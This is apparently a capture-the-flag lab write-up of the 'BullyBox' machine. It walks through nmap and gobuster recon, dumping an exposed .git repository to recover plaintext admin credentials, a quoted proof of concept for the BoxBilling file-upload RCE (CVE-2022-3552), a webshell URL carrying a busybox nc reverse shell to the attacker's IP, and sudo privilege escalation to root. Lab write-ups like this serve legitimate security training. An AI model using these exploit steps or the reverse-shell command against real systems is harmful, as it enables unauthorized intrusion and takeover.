







Writeup by wook413

[TOC]

# Recon

## Nmap

My methodology typically begins with three Nmap scans. First, I scan all 65,535 TCP ports. Next, I perform a service enumeration on the discovered ports, and finally, I scan the top 10 UDP ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-26 17:07 UTC
Nmap scan report for 192.168.186.27
Host is up (0.046s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 15.60 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 22,80                 
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-26 17:10 UTC
Nmap scan report for 192.168.186.27
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 8.48 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-26 17:10 UTC
Nmap scan report for 192.168.186.27
Host is up (0.044s latency).

PORT     STATE         SERVICE
53/udp   closed        domain
67/udp   closed        dhcps
123/udp  closed        ntp
135/udp  closed        msrpc
137/udp  closed        netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  open|filtered snmp
445/udp  closed        microsoft-ds
631/udp  closed        ipp
1434/udp closed        ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 5.09 seconds
```

# Initial Access

## HTTP 80

Whenever I encounter an HTTP service, my first step is to run Nmap’s `http-enum` scripts, as they often reveal some low-hanging fruits.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 80
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-26 17:12 UTC
Nmap scan report for 192.168.186.27
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 13.25 seconds
```

I mapped the domain name to the target IP address and updated the `/etc/hosts` file accordingly.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ echo '192.168.186.27 bullybox.local' | sudo tee -a /etc/hosts              
[sudo] password for kali: 
192.168.186.27 bullybox.local
```

Browsing the service on port 80 revealed **BoxBilling**. While I found an RCE exploit in **Searchsploit**, I noted that it required valid authentication.



```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit boxbilling           
-------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                          |  Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
BoxBilling 3.6.11 - 'mod_notification' Persistent Cross-Site Scripting                                  | php/webapps/30083.txt
BoxBilling<=4.22.1.5 - Remote Code Execution (RCE)                                                      | php/webapps/51108.txt
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I then proceeded with further enumeration, ranging from checking `/robots.txt` to performing directory brute-forcing with `gobuster`. This led to the discovery of a `/.git` directory.

```bash
# If the BoxBilling site is installed within a folder such as at
# e.g. www.example.com/boxbilling/ the robots.txt file MUST be
# moved to the site root at e.g. www.example.com/robots.txt
# AND the BoxBilling folder name MUST be prefixed to the disallowed
# path, e.g. the Disallow rule for the /bb-data/ folder
# MUST be changed to read Disallow: /boxbilling/bb-data/
#
# For more information about the robots.txt standard, see:
# <http://www.robotstxt.org/orig.html>
#
# For syntax checking, see:
# <http://www.sxw.org.uk/computing/robots/check.html>

User-agent: *
Disallow: /bb-data/
Disallow: /bb-library/
Disallow: /bb-locale/
Disallow: /bb-modules/
Disallow: /bb-uploads/
Disallow: /bb-vendor/
Disallow: /install/
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://bullybox.local> -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://bullybox.local>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.git                 (Status: 301) [Size: 315] [--> <http://bullybox.local/.git/>]
/.git/HEAD            (Status: 200) [Size: 23]
/.git/config          (Status: 200) [Size: 92]
/.git/logs/           (Status: 403) [Size: 279]
/.hta                 (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.git/index           (Status: 200) [Size: 495864]
...
[truncated]
...
/Documents and Settings (Status: 403) [Size: 279]
/LICENSE              (Status: 200) [Size: 11346]
/Program Files        (Status: 403) [Size: 279]
/_                    (Status: 200) [Size: 3971]
/about-us             (Status: 200) [Size: 9436]
/akeeba.backend.log   (Status: 403) [Size: 279]
/api/experiments      (Status: 200) [Size: 77]
/api/experiments/configurations (Status: 200) [Size: 93]
/balance              (Status: 302) [Size: 0] [--> <http://bullybox.local/client/balance>]
/blog                 (Status: 200) [Size: 10663]
/cart                 (Status: 200) [Size: 9299]
/client               (Status: 302) [Size: 3994] [--> <http://bullybox.local/login>]
/contact-us           (Status: 200) [Size: 11039]
/dashboard            (Status: 302) [Size: 13538] [--> <http://bullybox.local/login>]
/development.log      (Status: 403) [Size: 279]
/email                (Status: 302) [Size: 8976] [--> <http://bullybox.local/login>]
/emails               (Status: 302) [Size: 8976] [--> <http://bullybox.local/login>]
/example              (Status: 200) [Size: 4185]
/forum                (Status: 200) [Size: 9808]
/index.php            (Status: 200) [Size: 10462]
/invoice              (Status: 302) [Size: 9558] [--> <http://bullybox.local/login>]
/kb                   (Status: 200) [Size: 9522]
/login                (Status: 200) [Size: 14605]
/me                   (Status: 302) [Size: 0] [--> <http://bullybox.local/client/profile>]
/news                 (Status: 200) [Size: 10663]
/order                (Status: 200) [Size: 12532]
/php.ini              (Status: 403) [Size: 279]
/privacy-policy       (Status: 200) [Size: 10669]
/production.log       (Status: 403) [Size: 279]
/reports list         (Status: 403) [Size: 279]
/robots.txt           (Status: 200) [Size: 716]
/server-status        (Status: 403) [Size: 279]
/service              (Status: 302) [Size: 9188] [--> <http://bullybox.local/login>]
/sitemap.xml          (Status: 200) [Size: 1719]
/spamlog.log          (Status: 403) [Size: 279]
/support              (Status: 302) [Size: 11285] [--> <http://bullybox.local/login>]
/tos                  (Status: 200) [Size: 10263]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

Using `git-dumper`, I dumped the entire Git repository.

```bash
git-dumper <http://bullybox.local> git_directory
┌──(kali㉿kali)-[~/Desktop/git_directory]
└─$ ls -la
total 676
drwxrwxr-x 10 kali kali   4096 Jan 26 17:28 .
drwxr-xr-x  6 kali kali   4096 Jan 26 17:27 ..
-rwxrwxr-x  1 kali kali    938 Jan 26 17:28 bb-config.php
-rw-rw-r--  1 kali kali   2881 Jan 26 17:28 bb-config-sample.php
-rw-rw-r--  1 kali kali   1080 Jan 26 17:28 bb-cron.php
drwxrwxr-x  2 kali kali   4096 Jan 26 17:28 bb-data
-rw-rw-r--  1 kali kali  11338 Jan 26 17:28 bb-di.php
-rw-rw-r--  1 kali kali   1843 Jan 26 17:28 bb-ipn.php
drwxrwxr-x 10 kali kali   4096 Jan 26 17:28 bb-library
-rw-rw-r--  1 kali kali  10840 Jan 26 17:28 bb-load.php
drwxrwxr-x  3 kali kali   4096 Jan 26 17:28 bb-locale
drwxrwxr-x 50 kali kali   4096 Jan 26 17:28 bb-modules
drwxrwxr-x  6 kali kali   4096 Jan 26 17:28 bb-themes
-rw-rw-r--  1 kali kali  30279 Jan 26 17:28 bb-update.php
drwxrwxr-x  3 kali kali   4096 Jan 26 17:28 bb-uploads
drwxrwxr-x 19 kali kali   4096 Jan 26 17:28 bb-vendor
-rw-rw-r--  1 kali kali  24672 Jan 26 17:28 CHANGELOG.md
drwxrwxr-x  7 kali kali   4096 Jan 26 17:28 .git
-rw-rw-r--  1 kali kali   2353 Jan 26 17:28 .htaccess
-rw-rw-r--  1 kali kali    825 Jan 26 17:28 index.php
-rw-rw-r--  1 kali kali  11346 Jan 26 17:28 LICENSE
-rw-rw-r--  1 kali kali 507905 Jan 26 17:28 rb.php
-rw-rw-r--  1 kali kali  10039 Jan 26 17:28 README.md
-rw-rw-r--  1 kali kali    716 Jan 26 17:28 robots.txt
```

Inside `bb-config.php`, I discovered a set of credentials.

```bash
┌──(kali㉿kali)-[~/Desktop/git_directory]
└─$ cat bb-config.php 
<?php
return array (
  'debug' => false,
  'salt' => 'b94ff361990c5a8a37486ffe13fabc96',
  'url' => '<http://bullybox.local/>',
  'admin_area_prefix' => '/bb-admin',
  'sef_urls' => true,
  'timezone' => 'UTC',
  'locale' => 'en_US',
  'locale_date_format' => '%A, %d %B %G',
  'locale_time_format' => ' %T',
  'path_data' => '/var/www/bullybox/bb-data',
  'path_logs' => '/var/www/bullybox/bb-data/log/application.log',
  'log_to_db' => true,
  'db' =>
  array (
    'type' => 'mysql',
    'host' => 'localhost',
    'name' => 'boxbilling',
    'user' => 'admin',
    'password' => 'Playing-Unstylish7-Provided',
  ),
  'twig' =>
  array (
    'debug' => true,
    'auto_reload' => true,
    'cache' => '/var/www/bullybox/bb-data/cache',
  ),
  'api' =>
  array (
    'require_referrer_header' => false,
    'allowed_ips' =>
    array (
    ),
    'rate_span' => 3600,
    'rate_limit' => 1000,
  ),
);
```

Furthermore, running `git log -p` exposed the admin’s email and the username “**Yuki.”**

```bash
┌──(kali㉿kali)-[~/Desktop/git_directory/.git]
└─$ git log -P
commit ccf7c701c4bd22484cbe5d9f8f92511261aadef0 (HEAD -> master)
Author: Yuki <admin@bullybox.local>
Date:   Tue Jun 27 04:35:12 2023 +0000

    Ready For launch
```

I tested these credentials on the `/bb-admin` login page and successfully authenticated as an administrator.





With valid credentials in hand, I attempted the Authenticated RCE exploit I had identified earlier.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ cat 51108.txt           
# Exploit Title: BoxBilling<=4.22.1.5 - Remote Code Execution (RCE)
# Date: 2022-09-18
# Exploit Author: zetc0de
# Vendor Homepage: <https://www.boxbilling.org/>
# Software Link:
<https://github.com/boxbilling/boxbilling/releases/download/4.22.1.5/BoxBilling.zip>
# Version: <=4.22.1.5 (Latest)
# Tested on: Windows 10
# CVE : CVE-2022-3552
# BoxBilling was vulnerable to Unrestricted File Upload.
# In order to exploit the vulnerability, an attacker must have a valid
authenticated session as admin on the CMS.
# With at least 1 order of product an attacker can upload malicious file to
hidden API endpoint that contain a webshell and get RCE
###################################################################################

## POC
POST /index.php?_url=/api/admin/Filemanager/save_file HTTP/1.1
Host: local.com:8089
Content-Length: 52
Accept: application/json, text/javascript, */*; q=0.01
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=3nrf9i4mv28o5anva77ltq042d
Connection: close

order_id=1&path=ax.php&data=<%3fphp+phpinfo()%3b%3f>

POC Video :
<https://drive.google.com/file/d/1m2glCeJ9QXc8epuY2QfvbWwjLTJ8_Hjx/view?usp=sharing>
```

After analyzing the code, I executed the exploit. I confirmed it was working by successfully rendering the `phpinfo` page.







I replaced the command with a reverse shell payload, which successfully granted me a shell as the user “**yuki.”**



```bash
<http://bullybox.local/ax.php?cmd=busybox%20nc%20192.168.45.236%2080%20-e%20/bin/bash>
```

# Shell as `yuki`

```bash
yuki@bullybox:/var/www/bullybox$ whoami
yuki
yuki@bullybox:/var/www/bullybox$ id
uid=1001(yuki) gid=1001(yuki) groups=1001(yuki),27(sudo)
yuki@bullybox:/var/www/bullybox$ 
```

# Privilege Escalation

Once I gained shell access, I checked the user’s privileges using `sudo -l`. This revealed that Yuki was authorized to run all commands with elevated (root) privileges. I executed `/bin/bash -p` to spawn a shell with these elevated privileges, successfully obtaining **root** access.

```bash
yuki@bullybox:/home$ sudo -l
Matching Defaults entries for yuki on bullybox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin, use_pty

User yuki may run the following commands on bullybox:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

# Shell as `root`

```bash
yuki@bullybox:/home$ sudo /bin/bash -p
root@bullybox:/home# whoami
root
```

found `proof.txt`

```bash
root@bullybox:~# ls
email6.txt  proof.txt  snap
root@bullybox:~# cat proof.txt 
a46...
```